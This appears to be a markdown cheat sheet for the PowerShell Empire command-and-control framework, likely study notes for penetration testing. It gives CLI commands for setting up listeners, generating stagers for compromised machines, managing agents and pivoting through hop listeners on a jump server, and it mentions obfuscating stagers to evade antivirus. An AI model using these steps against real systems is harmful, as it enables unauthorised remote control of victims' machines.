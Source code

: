 # POWERSHELL EMPIRE C2 FRAMEWORK 

## LISTENERS

### Listeners in Empire are used to receive connections from stagers.  The default listener is the HTTP listener. This is what we will be using here, although there are many others available. It's worth noting that a single listener can be used more than once -- they do not die after their first usage.

#### Listener selection: uselistener LISTENER

#### Listener options: options, set OPTION VALUE, set Name NAME, set Host OUR_IP, set Port OUR_PORT

#### Launch listener: execute

#### Stop listener: kill LISTENER_NAME

#### Exit out of this menu: back, Main menu: main

## STAGERS

###  Stagers are Empire's payloads. They are used to connect back to waiting listeners, creating an agent when executed.

### We can generate stagers in either Empire CLI or Starkiller. In most cases these will be given as script files to be uploaded to the target and executed. Empire gives us a huge range of options for creating and obfuscating stagers for AV evasion; however, we will not be going into a lot of detail about these here.

#### Stager generation: usestager (Include space to get a list of available stagers in a dropdown menu)

#### General purpose stager: multi/launcher

#### Specify stager: usestager multi/launcher

#### Stager options: options, set OPTION VALUE set Listener LISTENER_NAME, execute

## AGENTS

#### Agent setup: Copy and paste stager to a script (name of your choice) and then transfer it on to the machine. Or just copy/paste the entire script to compromised machine to connect to the C2 server.

#### Agent interaction: agents (See full list of available agents), interact AGENT_NAME then help (Check your options to execute on compromised machine)

#### Switch back to agents menu: back

#### Kill agent: kill AGENT_NAME

#### Rename agent: rename AGENT_NAME NEW_AGENT_NAME

## HOP LISTENERS

### Hop Listeners create what looks like a regular listener in our list of listeners (like the http listener we used before); however, rather than opening a port to receive a connection, hop listeners create files to be copied across to the compromised "jump" server and served from there. These files contain instructions to connect back to a normal (usually HTTP) listener on our attacking machine. As such, the hop listener in the listeners menu can be thought of as more of a placeholder -- a reference to be used when generating stagers.

#### Listener creation: uselistener http_hop

#### Hop Listener setup: set RedirectListener FIRST_LISTENER_NAME, set Host COMPROMISED_IP set Port PORT(Above 15000)

#### Execute
